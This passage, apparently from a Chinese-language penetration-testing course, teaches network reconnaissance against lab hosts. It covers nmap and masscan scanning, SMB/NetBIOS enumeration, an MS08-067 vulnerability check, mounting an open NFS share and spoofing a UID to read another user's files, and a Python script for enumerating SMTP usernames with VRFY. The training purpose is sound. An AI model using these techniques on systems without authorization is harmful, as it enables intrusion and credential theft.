*列表 234 - 使用 `nmap` 执行 TCP connect 扫描*

[201] (Nmap, 2019), https://nmap.org/book/scan-methods-connect-scan.html

### 7.2.2.4 UDP 扫描

执行 UDP 扫描时，[202] Nmap 将结合两种不同的方法来确定端口是开放还是关闭。对于大多数端口，它会使用前面描述的标准“ICMP 端口不可达”方法，向给定端口发送一个空包。然而，对于常见端口，例如由 SNMP 使用的端口 161，它会发送协议特定的 SNMP 包，以尝试从绑定到该端口的应用程序获取响应。要执行 UDP 扫描，使用 `-sU` 选项，并且需要 `sudo` 权限来访问原始套接字：

```
kali@kali:~$ sudo nmap -sU 10.11.1.115
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:46 EST
Nmap scan report for 10.11.1.115
Host is up (0.079s latency).
Not shown: 997 open|filtered ports
PORT      STATE SERVICE
111/udp   open  rpcbind
137/udp   open  netbios-ns
161/udp   open  snmp
Nmap done: 1 IP address (1 host up) scanned in 22.49 seconds
```

*列表 235 - 使用 `nmap` 执行 UDP 扫描*

UDP 扫描 (`-sU`) 还可以与 TCP SYN 扫描 (`-sS`) 选项结合使用，以构建目标更完整的画像：

```
kali@kali:~$ sudo nmap -sS -sU 10.11.1.115
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 12:46 EST


```
Nmap scan report for 10.11.1.115

Host is up (0.15s latency).

Not shown: 997 open|filtered ports, 989 closed ports

PORT      STATE SERVICE

21/tcp    open  ftp

22/tcp    open  ssh

25/tcp    open  smtp

80/tcp    open  http

111/tcp   open  rpcbind

139/tcp   open  netbios-ssn

143/tcp   open  imap

199/tcp   open  smux

443/tcp   open  https

3306/tcp  open  mysql

32768/tcp open  filenet-tms

111/udp   open  rpcbind

137/udp   open  netbios-ns

161/udp   open  snmp

Nmap done: 1 IP address (1 host up) scanned in 64.74 seconds
```

*列表 236 - 使用 `nmap` 执行组合 UDP 和 SYN 扫描*

在下一节中，我们将探索处理大型网络或具有流量限制网络的技术。

[202] (Nmap, 2019). https://nmap.org/book/scan-methods-udp-scan.html

### 7.2.2.5 网络扫掠

为了处理大量主机，或者为了节省网络流量，我们可以尝试使用网络扫掠技术探测目标，即从广泛的扫描开始，然后对感兴趣的主机使用更具体的扫描。

在使用 Nmap 的 `-sn` 选项执行网络扫掠时，主机发现过程不仅仅是发送 ICMP 回声请求。除了 ICMP 请求外，还使用其他几种探测。Nmap 还向端口 443 发送 TCP SYN 包，向端口 80 发送 TCP ACK 包，并发送 ICMP 时间戳请求，以验证主机是否可用。

```
kali@kali:~$ nmap -sn 10.11.1.1-254

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:27 EST

Nmap scan report for 10.11.1.5

Host is up (0.026s latency).

MAC Address: 00:50:56:89:70:15 (VMware)

Nmap scan report for 10.11.1.7

Host is up (0.026s latency).

MAC Address: 00:50:56:89:36:32 (VMware)

...

Nmap done: 254 IP addresses (44 hosts up) scanned in 6.14 seconds
```

*列表 237 - 使用 `nmap` 执行网络扫掠*

使用 `grep` 命令在标准的 `nmap` 输出中搜索在线机器可能会很繁琐。相反，让我们使用 Nmap 的“可 grep”输出参数 `-oG`，将这些结果格式化为更易于管理的格式：

```
kali@kali:~$ nmap -v -sn 10.11.1.1-254 -oG ping-sweep.txt

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:34 EST

Initiating ARP Ping Scan at 11:34

Scanning 254 hosts [1 port/host]

Completed ARP Ping Scan at 11:35, 4.71s elapsed (254 total hosts)

Initiating Parallel DNS resolution of 254 hosts. at 11:35

Completed Parallel DNS resolution of 254 hosts. at 11:35, 0.07s elapsed

Nmap scan report for 10.11.1.1 [host down]

Nmap scan report for 10.11.1.2 [host down]

Nmap scan report for 10.11.1.3 [host down]

Nmap scan report for 10.11.1.4 [host down]

Nmap scan report for 10.11.1.5

Host is up (0.026s latency).

MAC Address: 00:50:56:89:70:15 (VMware)

...

kali@kali:~$ grep Up ping-sweep.txt | cut -d " " -f 2

10.11.1.5

10.11.1.7

10.11.1.8

...
```

*列表 238 - 使用 `nmap` 执行网络扫掠，然后使用 `grep` 查找在线主机*

我们还可以在网络中扫掠特定的 TCP 或 UDP 端口，探测常见服务和端口，试图定位可能有用的系统或存在已知漏洞的系统。这种扫描通常比 ping 扫掠更准确：

```
kali@kali:~$ nmap -p 80 10.11.1.1-254 -oG web-sweep.txt

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:38 EST

Nmap scan report for 10.11.1.5

Host is up (0.036s latency).

PORT STATE SERVICE

80/tcp closed http

MAC Address: 00:50:56:89:70:15 (VMware)

Nmap scan report for 10.11.1.7

Host is up (0.029s latency).

PORT STATE SERVICE

80/tcp filtered http

MAC Address: 00:50:56:89:36:32 (VMware)

Nmap scan report for 10.11.1.8

Host is up (0.034s latency).

PORT STATE SERVICE

80/tcp open http

MAC Address: 00:50:56:89:20:34 (VMware)

...

kali@kali:~$ grep open web-sweep.txt | cut -d" " -f2

10.11.1.8

10.11.1.10

10.11.1.13

...
```

*列表 239 - 使用 `nmap` 扫描使用端口 80 的 Web 服务器*

为了节省时间和网络资源，我们还可以扫描多个 IP，探测少量常见端口。例如，让我们使用 `--top-ports` 选项对前二十个 TCP 端口进行 TCP connect 扫描，并使用 `-A` 启用操作系统版本检测、脚本扫描和路径追踪：

```
kali@kali:~$ nmap -sT -A --top-ports=20 10.11.1.1-254 -oG top-port-sweep.txt

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:40 EST

Nmap scan report for 10.11.1.5

Host is up (0.037s latency).

PORT STATE SERVICE VERSION

21/tcp closed ftp

22/tcp closed ssh

23/tcp closed telnet

25/tcp closed smtp

53/tcp closed domain

80/tcp closed http

110/tcp closed pop3

...

Host script results:

 | nbstat: NetBIOS name: ALICE, NetBIOS user: <unknown> , NetBIOS MAC: 00:50:56:89:70:15

 | smb-os-discovery:

 | OS: Windows XP (Windows 2000 LAN Manager)

 | OS CPE: cpe:/o:microsoft:windows_xp::-

 | Computer name: alice
```


NetBIOS 计算机名：`ALICE\x00`
域名：`thinc.local`
林名：`thinc.local`
完全限定域名 (FQDN)：`alice.thinc.local`
系统时间：`2019-03-04T16:44:52+00:00`
`smb-security-mode`:
  `account_used`: `guest`
  `authentication_level`: `user`
  `challenge_response`: `supported`
  `message_signing`: `disabled (dangerous, but default)`
`smb2-time`: Protocol negotiation failed (`SMB2`)

Listing 240 - 使用 `nmap` 执行前二十端口扫描，并将输出保存为可 `grep` 的格式

`nmap` 的前二十端口是通过 `/usr/share/nmap/nmap-services` 文件确定的。该文件使用一种简单的格式，由三个以空格分隔的列组成。第一列是服务名称，第二列包含端口号和协议，第三列是“端口频率”。第三列之后的所有内容都会被忽略，但通常用作注释，如磅号（`#`）的使用所示。端口频率是基于在研究互联网扫描时端口被发现开放的概率。

```
kali@kali:~$ cat /usr/share/nmap/nmap-services

...

finger 79/udp 0.000956

http 80/sctp 0.000000 # www-http | www | World Wide Web HTTP

http 80/tcp 0.484143 # World Wide Web HTTP

http 80/udp 0.035767 # World Wide Web HTTP

hosts2-ns 81/tcp 0.012056 # HOSTS2 Name Server

hosts2-ns 81/udp 0.001005 # HOSTS2 Name Server

...
```

Listing 241 - `nmap-services` 文件显示 TCP 80 端口的开放频率

在此阶段，我们可以针对那些服务丰富或感兴趣的单独机器进行更详尽的扫描。

我们可以通过扫描进行许多不同的创造性操作，以节省带宽或降低我们的特征，并且大多数都利用了有趣的主机发现技术，这值得进一步研究。

## 7.2.2.6 操作系统指纹识别

`Nmap` 有一个内置功能称为操作系统指纹识别（OS Fingerprinting），可以通过 `-O` 选项启用。该功能试图通过检查返回的数据包来猜测目标的操作系统。这是可能的，因为操作系统通常具有略有不同的 TCP/IP 堆栈实现（例如不同的默认 TTL 值和 TCP 窗口大小），这些细微差别创造了指纹，`Nmap` 通常可以识别出这些指纹。

`Nmap` 将检查从目标机器接收到的流量，并试图将指纹与已知列表进行匹配。

例如，考虑一个简单的 `nmap` 操作系统指纹扫描。

```
kali@kali:~$ sudo nmap -O 10.11.1.220

...

Device type: general purpose

Running: Microsoft Windows 2008|7

OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7

OS details: Microsoft Windows 7 or Windows Server 2008 R2

Network Distance: 1 hop

...
```


响应表明，该目标的底层操作系统是 Windows 7 或 Windows 2008 R2。

> *注意，操作系统指纹识别并不总是 100% 准确，而是一种最佳猜测尝试。请更仔细地检查目标以确认操作系统指纹扫描结果。*

## 7.2.2.7 横幅抓取/服务枚举

我们还可以通过检查服务横幅（`-sV`）并对目标运行各种操作系统和服务枚举脚本（`-A`）来识别特定端口上运行的服务。

```
kali@kali:~$ nmap -sV -sT -A 10.11.1.220

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:27 EST

Nmap scan report for 10.11.1.220

Host is up (0.00043s latency).

Not shown: 979 closed ports

PORT     STATE SERVICE    VERSION

21/tcp   open  ftp        FileZilla ftpd 0.9.34 beta

| ftp-syst:

|_  SYST: UNIX emulated by FileZilla

53/tcp   open  domain     Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)

| dns-nsid:

|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)

88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2013-12-28 07:37:57Z)

135/tcp  open  msrpc      Microsoft Windows RPC

...

Nmap done: 1 IP address (1 host up) scanned in 55.67 seconds
```


请记住，系统管理员可以修改横幅。因此，这些横幅可以故意设置为虚假的服务名称，以误导潜在的攻击者。

横幅抓取对流量使用量以及扫描速度有显著影响。我们应该始终注意用于 `nmap` 的选项及其对扫描的影响。

## 7.2.2.8 Nmap 脚本引擎 (NSE)

我们可以使用 Nmap 脚本引擎（NSE）启动用户创建的脚本，以自动化各种扫描任务。这些脚本执行广泛的功能，包括 DNS 枚举、暴力攻击，甚至漏洞识别。NSE 脚本位于 `/usr/share/nmap/scripts` 目录中。

例如，`smb-os-discovery` 脚本试图连接到目标系统的 SMB 服务并确定其操作系统：

```
kali@kali:~$ nmap 10.11.1.220 --script=smb-os-discovery

...

OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Sta

OS CPE: cpe:/o:microsoft:windows_server_2008::sp1

Computer name: master

NetBIOS computer name: MASTER\x00

Domain name: thinc.local

Forest name: thinc.local

FQDN: master.thinc.local

System time: 2013-12-27T23:37:58-08:00

Nmap done: 1 IP address (1 host up) scanned in 5.85 seconds
```

Listing 244 - 使用 `nmap` 的脚本引擎 (NSE) 进行操作系统指纹识别

另一个有用且不言自明的 NSE 脚本是 `dns-zone-transfer`：

```
kali@kali:~$ nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:54 EST

Nmap scan report for ns2.megacorpone.com (38.100.193.80)

Host is up (0.010s latency).

Other addresses for ns2.megacorpone.com (not scanned):

PORT STATE SERVICE

53/tcp open domain

dns-zone-transfer:

megacorpone.com. SOA ns1.megacorpone.com, admin.megacorpone.com.

megacorpone.com. MX 10 fb.mail.gandi.net.

megacorpone.com. MX 20 spool.mail.gandi.net.

megacorpone.com. MX 50 mail.megacorpone.com.
```


megacorpone.com. MX `60` `mail2.megacorpone.com`.

megacorpone.com. NS `ns1.megacorpone.com`.

...

```
Listing 245 - 使用 nmap 执行 DNS 区域传输
```

若要查看脚本的更多信息，我们可以使用 `--script-help` 选项，该选项显示脚本的描述以及我们可以找到更多深入信息的 URL，例如脚本参数和使用示例。

> (Nmap, 2019), http://nmap.org/book/nse.html

```
kali@kali:~$ nmap --script-help dns-zone-transfer
```

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-06 11:02 MDT

dns-zone-transfer

Categories: intrusive discovery

https://nmap.org/nsedoc/scripts/dns-zone-transfer.html

Requests a zone transfer (AXFR) from a DNS server.

The script sends an AXFR query to a DNS server. The domain to query is

determined by examining the name given on the command line, the DNS

server's hostname, or it can be specified with the

`dns-zone-transfer.domain` script argument. If the query is

successful all domains and domain types are returned along with common

type specific data (SOA/MX/NS/PTR/A)\.

```
Listing 246 - 使用 --script-help 选项查看脚本的更多信息
```

在互联网访问不可用的情况下，许多此类信息也可以在 NSE 脚本文件本身中找到。

花时间去探索各种 NSE 脚本，因为其中许多是有用的且节省时间的。

## 7.2.2.9 练习

1. 使用 Nmap 对目标 IP 范围进行 ping 扫描，并将输出保存到文件中。使用 grep 显示在线的机器。
2. 扫描练习 1 中发现的 IP 地址上的开放 Web 服务器端口。使用 Nmap 查找 Web 服务器和操作系统版本。
3. 使用 NSE 脚本扫描实验室中运行 SMB 服务的机器。
4. 使用 Wireshark 捕获 Nmap connect 和 UDP 扫描，并将其与 Netcat 端口扫描进行比较。它们是相同还是不同？
5. 使用 Wireshark 捕获 Nmap SYN 扫描并将其与 connect 扫描进行比较，识别它们之间的差异。

#### 7.2.3 Masscan

Masscan 可以说是最快的端口扫描器；它可以在大约 6 分钟内扫描整个互联网，每秒传输惊人的 1000 万个数据包！虽然它最初被设计用于扫描整个互联网，但它轻松处理 A 类或 B 类子网，这是在渗透测试中更合适的目标范围。

Kali 默认未安装 Masscan；必须使用 `apt install` 安装：

```
kali@kali:~$ sudo apt install masscan
```

The following NEW packages will be installed:

masscan

0 upgraded, 1 newly installed, 0 to remove and 1469 not upgraded.

Need to get 184 kB of archives.

> (Offensive Security, 2019). https://tools.kali.org/information-gathering/masscan

此操作后，将额外使用 401 kB 的磁盘空间。

清单 247 - 在 Kali Linux 上安装 masscan

考虑这样一个演示：它使用 `-p80` 选项定位大型内部网络中所有开放 TCP 80 端口的机器。由于 masscan 实现了自定义的 TCP/IP 栈，因此它需要访问原始套接字（raw sockets），所以必须使用 sudo。

> *请注意：不要尝试在 PWK 内部实验室网络中运行此命令，因为这将扫描你未被授权的子网。此示例仅用于说明目的！*

```bash
kali@kali:~$ sudo masscan -p80 10.0.0.0/8
```

清单 248 - 使用 masscan 查找 A 类子网内的所有 Web 服务器

若要尝试在 PWK 内部实验室网络中对 C 类子网使用 masscan，我们可以使用以下示例。我们将添加一些额外的 `masscan` 选项，包括使用 `--rate` 指定期望的数据包传输速率，使用 `-e` 指定要使用的原始网络接口，以及使用 `--router-ip` 指定适当网关的 IP 地址：

```bash
kali@kali:~$ sudo masscan -p80 10.11.1.0/24 --rate=1000 -e tap0 --router-ip 10.11.0.1
```

Starting masscan 1.0.3 (http://bit.ly/14gZzcT) at 2019-03-04 17:15:40 GMT

 -- forced options: -sS -Pn -n -r randomize-hosts -v --send-eth

Initiating SYN Stealth Scan

Scanning 256 hosts [1 port/host]

Discovered open port 80/tcp on 10.11.1.14

Discovered open port 80/tcp on 10.11.1.39

Discovered open port 80/tcp on 10.11.1.219

Discovered open port 80/tcp on 10.11.1.227

Discovered open port 80/tcp on 10.11.1.10

Discovered open port 80/tcp on 10.11.1.56

Discovered open port 80/tcp on 10.11.1.234

...

```
清单 249 - 使用 masscan 的高级选项
```

### 7.3 SMB 枚举

由于服务器消息块（SMB）$^{208}$ 协议复杂的实现和开放特性，其安全记录多年来一直表现不佳。从 Windows 2000 和 XP 中未认证的 SMB 空会话，到多年来大量的 SMB 漏洞和缺陷，SMB 确实经受了不少折腾。$^{209}$

话虽如此，SMB 协议也随着 Windows 操作系统的发布不断更新和改进。

$^{208}$ (Wikipedia, 2019), https://en.wikipedia.org/wiki/Server_Message_Block

$^{209}$ (Mark A. Gamache, 2013), http://markgamache.blogspot.ca/2013/01/ntlm-challenge-response-is-100-broken.html

#### 7.3.1 扫描 NetBIOS 服务

NetBIOS $^{210}$ 服务监听 TCP 端口 139 以及几个 UDP 端口。需要注意的是，SMB（TCP 端口 445）和 NetBIOS 是两个独立的协议。NetBIOS 是一个独立的会话层协议和服务，允许局域网内的计算机相互通信。虽然现代 SMB 实现可以在没有 NetBIOS 的情况下工作，但 *NetBIOS over TCP* (NBT) $^{211}$ 是向后兼容所必需的，并且经常一起启用。因此，这两个服务的枚举通常是一起进行的。可以使用 `nmap` 等工具进行扫描，使用类似于以下语法的命令：

```bash
kali@kali:~$ nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254
```

*清单 250 - 使用 nmap 扫描 NetBIOS 服务*

还有其他更专业的工具专门用于识别 NetBIOS 信息，例如 `nbtscan`，在下例中使用了该工具。使用 `-r` 选项指定源 UDP 端口为 137，该端口用于向 NetBIOS 名称服务查询有效的 NetBIOS 名称：

```bash
kali@kali:~$ sudo nbtscan -r 10.11.1.0/24
```


Doing NBT name scan for addresses from `10.11.1.0/24`

| IP 地址 | NetBIOS 名称 | 服务器 | 用户 | MAC 地址 |
| :--- | :--- | :--- | :--- | :--- |
| 10.11.1.5 | ALICE | <server> | ALICE | 00:50:56:89:35:a |
| 10.11.1.31 | RALPH | <server> | HACKER | 00:50:56:89:01:19 |
| 10.11.1.24 | PAYDAY | <server> | PAYDAY | 00:00:00:00:00:00 |

*清单 251 - 使用 `nbtscan` 收集额外的 NetBIOS 信息*

## 7.3.2 Nmap SMB NSE 脚本

Nmap 包含许多有用的 NSE 脚本，可用于发现和枚举 SMB 服务。这些脚本可以在 `/usr/share/nmap/scripts` 目录中找到：

```bash
kali@kali:~$ ls -1 /usr/share/nmap/scripts/smb*
/usr/share/nmap/scripts/smb2-capabilities.nse
/usr/share/nmap/scripts/smb2-security-mode.nse
/usr/share/nmap/scripts/smb2-time.nse
/usr/share/nmap/scripts/smb2-vuln-uptime.nse
/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-double-pulsar-backdoor.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
```

*清单 252 - 查找各种 nmap SMB NSE 脚本*

$^{210}$ (Wikipedia, 2019), https://en.wikipedia.org/wiki/NetBIOS

$^{211}$ (Wikipedia, 2019), https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP

在这里，我们找到了几个有趣的 Nmap SMB NSE 脚本，它们执行各种任务，例如通过 SMB 进行操作系统发现和枚举。

让我们尝试 `smb-os-discovery` 模块：

```bash
kali@kali:~$ nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227
...
Nmap scan report for 10.11.1.227
Host is up (0.57s latency).
PORT STATE SERVICE
139/tcp open netbios-ssn
Host script results:
| smb-os-discovery:
|    OS: Windows 2000 (Windows 2000 LAN Manager)
|    OS CPE: cpe:/o:microsoft:windows_2000::-
|    Computer name: srv2
|    NetBIOS computer name: SRV2
|    Workgroup: WORKGROUP
...
```

*清单 253 – 使用 nmap 脚本引擎执行操作系统发现*

这个特定脚本识别了主机操作系统的潜在匹配项。

要检查已知的 SMB 协议漏洞，我们可以调用其中一个 `smb-vuln` NSE 脚本。我们将查看 `smb-vuln-ms08-067`，它使用 `--script-args` 选项向 NSE 脚本传递参数。

> *请注意：如果我们设置脚本参数 `unsafe=1`，即将运行的脚本几乎（或完全）保证会导致易受攻击的系统崩溃。不用说，启用此参数时要格外小心，尤其是在扫描生产系统时。*

```bash
kali@kali:~$ nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.1.1.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:27 EST
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
...
Scanning 10.11.1.5 [2 ports]
...
Completed NSE at 00:04, 17.39s elapsed
Nmap scan report for 10.11.1.5
Host is up (0.17s latency).
PORT STATE SERVICE
139/tcp open netbios-ssn
445/tcp open microsoft-ds
MAC Address: 00:50:56:AF:02:91 (VMware)
Host script results:
| smb-vuln-ms08-067:
|    VULNERABLE:
```


> | 微软 Windows 系统易受远程代码执行攻击 (MS08-067)
> |   状态: VULNERABLE
> |   Ids: CVE:CVE-2008-4250
> |   Microsoft Windows 2000 SP4, XP SP2 和 SP3, Server 2
> |   Vista Gold 和 SP1, Server 2008, 以及 7 Pre-Beta 中的 Server 服务允许远程攻击者
> |   通过特制的 RPC 请求触发路径规范化过程中的溢出从而执行代码
> |   披露日期: 2008-10-13
> |   参考链接:
> |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
> |       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
> | ...

清单 254 - 确定主机是否易受 MS08_067 漏洞攻击

在这种情况下，Nmap 识别出特定的 SMB 服务缺少针对 MS08-067$^{212}$ 漏洞的至少一个关键补丁。

### 7.3.2.1 练习

- 1. 使用 Nmap 列出实验室中运行 Windows 的 SMB 服务器列表。
- 2. 使用 NSE 脚本扫描这些系统中的 SMB 漏洞。
- 3. 对这些系统使用 nbtscan 和 enum4linux，以识别从不同版本的 Windows 中可获取的数据类型。

$^{212}$ (Microsoft, 2008), http://technet.microsoft.com/en-us/security/bulletin/ms08-067

### 7.4 NFS 枚举

网络文件系统（NFS）$^{213}$ 是一个分布式文件系统协议，最初由 Sun Microsystems 于 1984 年开发。它允许客户端计算机上的用户通过网络访问文件，就好像它们位于本地挂载的存储上一样。

NFS 通常与 UNIX 操作系统一起使用，且其实现主要是不安全的。由于很难安全地配置，因此发现对全世界开放的 NFS 共享并不罕见。这对我们渗透测试人员来说非常方便，因为我们可能能够利用它们来收集敏感信息、提升权限等等。

#### 7.4.1 扫描 NFS 共享

`*Portmapper*`$^{214}$ 和 `*RPCbind*`$^{215}$ 均运行在 TCP 端口 111 上。`RPCbind` 将 RPC 服务映射到它们监听的端口。RPC 进程在启动时会通知 rpcbind，注册它们监听的端口以及它们预期服务的 RPC 程序号。

客户端系统随后使用特定的 RPC 程序号联系服务器上的 rpcbind。rpcbind 服务将客户端重定向到正确的端口号（通常是 TCP 端口 2049），以便其可以

$^{213}$ (Wikipedia, 2019), https://en.wikipedia.org/wiki/Network_File_System
$^{214}$ (Wikipedia, 2017), http://en.wikipedia.org/wiki/Portmap
$^{215}$ (Red Hat, 2019), https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/storage_administration_guide/s2-nfs-methodology-portmap

我们可以使用这些端口与请求的服务进行通信。我们可以使用 `nmap` 扫描这些端口，语法如下：

```bash
kali@kali:~$ nmap -v -p 111 10.11.1.1-254
```

列表 255 - 使用 nmap 识别正在运行 portmapper/rcbind 的主机

我们可以使用 `rpcinfo` 等 NSE 脚本查找可能已注册到 `rcbind` 的服务：

```bash
# Command to execute NSE script rpcinfo
kali@kali:~$ nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
# Output from the Nmap scan
...
Nmap scan report for 10.11.1.72
Host is up (0.0055s latency).
PORT     STATE SERVICE VERSION
111/tcp   open  rpcbind 2-4 (RPC #100000)
  rpcinfo:
    program  version   port/proto  service
    100000 2,3,4      111/tcp    rpcbind
    100000 2,3,4      111/udp    rpcbind
    100003 2,3,4      2049/tcp   nfs
    100003 2,3,4      2049/udp   nfs
    100005 1,2,3      58255/udp  mountd
    100005 1,2,3      56911/tcp  mountd
    100021 1,3,4      40160/udp  nlockmgr
    100021 1,3,4      57765/tcp  nlockmgr
    100024 1          34959/udp  status
    100024 1          46908/tcp  status
    100227 2,3        2049/tcp   nfs_acl
    100227 2,3        2049/udp   nfs_acl
...
```

列表 256 - 查询 rcbind 以获取已注册的服务

#### 7.4.2 Nmap NFS NSE 脚本

一旦发现 NFS 正在运行，我们可以使用位于 `/usr/share/nmap/scripts` 目录中的 NSE 脚本收集更多信息、枚举 NFS 服务并发现其他服务：

```bash
# List NSE scripts related to NFS
kali@kali:~$ ls -l /usr/share/nmap/scripts/nfs*
/usr/share/nmap/scripts/nfs-ls.nse
/usr/share/nmap/scripts/nfs-showmount.nse
/usr/share/nmap/scripts/nfs-statfs.nse
```

列表 257 - 查找各种用于 NFS 的 NSE 脚本

我们可以使用脚本名称中的通配符 (`*`) 来运行这三个脚本：

```bash
# Run all NFS scripts against the target range
kali@kali:~$ nmap -p 111 --script nfs* 10.11.1.72
...
Nmap scan report for 10.11.1.72
PORT     STATE SERVICE
111/tcp  open  rpcbind
|  nfs-showmount:
|_  /home  10.11.0.0/255.255.0.0
```

列表 258 - 运行所有用于 NFS 的 NSE 脚本

在这种情况下，整个 `/home` 目录都在共享，我们可以通过将其挂载到我们的 Kali 虚拟机上来访问它。我们将使用 `mount` 命令来执行此操作，并配合 `-o nolock` 来禁用文件锁定，这在旧版 NFS 服务器中通常是需要设置的：

```bash
kali@kali:~$ mkdir home
kali@kali:~$ sudo mount -o nolock 10.11.1.72:/home ~/home/
kali@kali:~$ cd home/ && ls
jenny joeb45 john marcus ryuu
```

列表 259 - 使用 mount 命令在 Kali 中访问 NFS 共享

根据此文件列表，我们可以看到远程机器上有几个本地用户的 home 目录。深入挖掘后，我们发现了一个引人注目的文件名，于是我们尝试查看它：

```bash
kali@kali:~/home$ cd marcus
kali@kali:~/home/marcus$ ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09:16 .
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
```


`-rwx------ 1 1014 1014 48 Jun 10 09:16 creds.txt`

`kali@kali:~/home/marcus$ cat creds.txt`

`cat: creds.txt: Permission denied`

列表 260 - 使用内置命令探索 NFS 共享

看起来我们无权查看此文件。仔细查看文件权限后，我们可以看到其所有者的 UID 为 1014，并且拥有对该文件的 `读取 (r)、写入 (w) 和执行 (x)` 权限。我们可以利用这些信息做什么？既然我们对 Kali 机器拥有完全控制权，我们可以尝试使用 `adduser` 命令为其添加一个本地用户，将其 UID 更改为 1014，`su` 切换到该用户，然后再次尝试访问该文件：

```bash
kali@kali:~/home/steven$ sudo adduser pwn

Adding user `pwn' ...

Adding new group `pwn' (1001) ...

Adding new user `pwn' (1001) with group `pwn' ...

Creating home directory `/home/pwn' ...

Copying files from `/etc/skel' ...

Enter new UNIX password:

Retype new UNIX password:

passwd: password updated successfully

Changing the user information for pwn

Enter the new value, or press ENTER for the default

  Full Name []:

  Room Number []:

  Work Phone []:

  Home Phone []:

  Other []:

Is the information correct? [Y/n]
```

列表 261 - 为我们的 Kali 机器添加本地用户


根据上述输出，我们可以看到新用户的 UID 为 1001，这并不是我们真正需要的。我们可以使用 `sed` 将其更改为 1014，并确认更改已生效。`-i` 选项用于就地替换文件，而 `-e` 选项用于执行脚本。在这种情况下，执行的是 `'s/1001/1014/g'`，这将在全局范围内替换 `/etc/passwd` 文件中的 UID：

```bash
kali@kali:~/home/marcus$ sudo sed -i -e 's/1001/1014/g' /etc/passwd

kali@kali:~/home/marcus$ cat /etc/passwd | grep pwn

pwn:x:1014:1014::/home/pwn:/bin/bash
```

列表 262 - 更新 `/etc/passwd` 文件中的 UID

目前一切顺利。让我们尝试使用 `su` 切换到新添加的 `pwn` 用户，验证我们的 UID 确实已更改，然后再次尝试访问该文件。我们将使用 `su` 命令更改当前登录会话的所有者。然后，我们将使用 `id` 显示当前用户 ID。最后，我们将再次尝试访问该文件：

```bash
kali@kali:~/home/marcus$ su pwn

pwn@kali:/root/home/marcus$ id

uid=1014(pwn) gid=1014 groups=1014

pwn@kali:/root/home/marcus$ cat creds.txt

Not what you are looking for, try harder!!! :O
```

列表 263 - 以 pwn 用户身份访问文件

太棒了！现在我们不仅可以读取该文件，还可以根据需要对其进行修改。尽管在这个特定实例中，文件内容并非我们预期的那样，但具有这种安全级别（或低安全级别）的系统通常以在纯文本文件中存储敏感信息而闻名。花一点时间想想在这种情况下我们还可以做什么，例如替换 SSH 密钥、读取机密文件等等。

### 7.4.2.1 练习

- 1. 使用 `Nmap` 列出实验室中运行 NFS 的机器。
- 2. 使用 NSE 脚本扫描这些系统，并收集关于可访问共享的额外信息。

### 7.5 SMTP 枚举

我们还可以从存在漏洞的邮件服务器收集有关主机或网络的信息。简单邮件传输协议 `SMTP` 支持一些有趣的命令，例如 `VRFY` 和 `EXPN`。`VRFY` 请求询问服务器验证电子邮件地址，而 `EXPN` 则询问服务器邮件列表的成员。这些通常可以被滥用来验证邮件服务器上已存在的用户，这在渗透测试中是有用的信息。考虑以下示例：

```bash
kali@kali:~$ nc -nv 10.11.1.217 25

(UNKNOWN) [10.11.1.217] 25 (smtp) open

220 hotline.localdomain ESMTP Postfix

VRFY root

252 2.0.0 root

VRFY idontexist

550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table

^C
```

请注意成功消息和错误消息之间的区别。SMTP 服务器愉快地验证了用户存在。此过程可用于帮助以自动化的方式猜测有效的用户名。考虑以下 Python 脚本，它打开一个 TCP 套接字，连接到 SMTP 服务器，并为给定的用户名发出 VRFY 命令：

```python
#!/usr/bin/python

import socket

import sys

if len(sys.argv) != 2:
    print "Usage: vrfy.py <username>"
    sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
s.connect(('10.11.1.217', 25))

# Receive the banner
banner = s.recv(1024)

print banner

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')

result = s.recv(1024)

print result

# Close the socket
s.close()
```


#### 7.5.1 练习

- 1. 搜索您的目标网络范围，看看是否能识别出任何响应 SMTP VRFY 命令的系统。
- 2. 尝试使用此 Python 代码，并配合包含用户名的文本文件作为输入，来自动化用户名发现过程。

### 7.6 SNMP 枚举

多年来，我们发现许多网络管理员对简单网络管理协议 (SNMP) 的理解并不深刻。这通常会导致 SNMP 配置错误，进而可能导致严重的信息泄露。

